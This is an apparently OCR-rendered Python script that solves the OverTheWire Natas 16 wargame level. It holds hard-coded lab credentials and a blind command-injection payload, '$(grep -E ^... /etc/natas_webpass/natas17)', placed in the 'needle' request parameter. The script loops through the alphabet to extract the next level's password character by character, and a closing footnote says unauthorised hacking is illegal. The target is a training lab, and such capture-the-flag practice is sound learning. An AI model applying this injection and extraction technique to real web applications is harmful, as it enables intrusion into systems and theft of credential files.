 ```python
logging.getLogger("urllib3").setLevel(logging.CRITICAL)


def get_page_text(query_dict):
    query_dict["debug"] = "1"
    r = requests.get(
        "http://natas16.natas.labs.overthewire.org",
        auth=("natas16", "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"),
        params=query_dict)
    return r.text


def does_user_exist(body):
    html = BeautifulSoup(body, "html.parser")
    text = html.body.div.pre.get_text().strip()
    logger.debug(text)
    return text != "Aprils"


def get_next_char(index, possible_chars):
    next_index = index + 1
    return next_index, possible_chars[index]


def get_password():
    # All previous passwords contined only numbers and lower/upper case
    # letters. Let's assume that the same is true for this password.
    possible_chars = "".join([
        string.lowercase,
        string.uppercase,
        "".join(map(str, range(10)))
    ])

    password = ""
    index = 0
    while True:
        try:
            index, char = get_next_char(index, possible_chars)
        except IndexError:
            # None of the chars matched, assume that the password has been
            # guessed.
            return password
        password_guess = "".join([password, char])
        text = get_page_text({
            "needle": "$(grep -E ^{0}.* /etc/natas_webpass/natas17)aprils".format(
                password_guess),
            "debug": "true"
        })
        if does_user_exist(text):
            password = "".join([password, char])
            logging.info("password: %s", password)
            index = 0


def main():
    print get_password()


if __name__ == "__main__":
    main()
```


[^1]: Hacking into systems without explicit permission is illegal.